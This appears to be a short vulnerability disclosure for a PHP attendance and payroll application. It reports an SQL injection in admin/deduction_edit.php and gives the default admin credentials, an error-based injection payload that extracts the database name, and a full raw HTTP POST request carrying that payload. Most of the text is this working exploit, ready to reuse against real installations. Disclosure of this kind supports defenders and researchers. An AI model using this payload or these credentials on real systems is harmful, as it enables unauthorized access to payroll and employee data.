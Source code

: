 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\deduction_edit.php has SQL injection

Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&description=PhilHealth&amount=150&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159259387-40e8bf5e-7297-4222-96da-299244646354.png)

```sql
POST /apsystem/admin/deduction_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/deduction.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&description=PhilHealth&amount=150&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159261257-56e82ae3-8ff1-4305-8b9a-b283201b50ef.png)

![image](https://user-images.githubusercontent.com/54017627/159261164-dd50b65b-48fb-467b-a2c5-bf4ec5d0e75b.png)

